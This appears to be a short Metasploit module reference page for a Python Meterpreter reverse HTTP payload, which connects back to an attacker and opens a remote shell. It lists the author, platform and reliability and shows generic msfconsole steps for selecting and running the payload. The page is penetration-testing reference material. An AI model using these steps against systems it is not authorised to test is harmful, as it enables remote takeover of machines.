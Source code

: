 ## Python Meterpreter Shell, Reverse HTTP Inline

Connect back to the attacker and spawn a Meterpreter shell


## Module Name
payload/python/meterpreter_reverse_http

## Authors
* Spencer McIntyre





## Platforms
* python

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/python/meterpreter_reverse_http
msf payload(meterpreter_reverse_http) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_http) > set TARGET <target-id>
msf payload(meterpreter_reverse_http) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_http) > run
```
    
    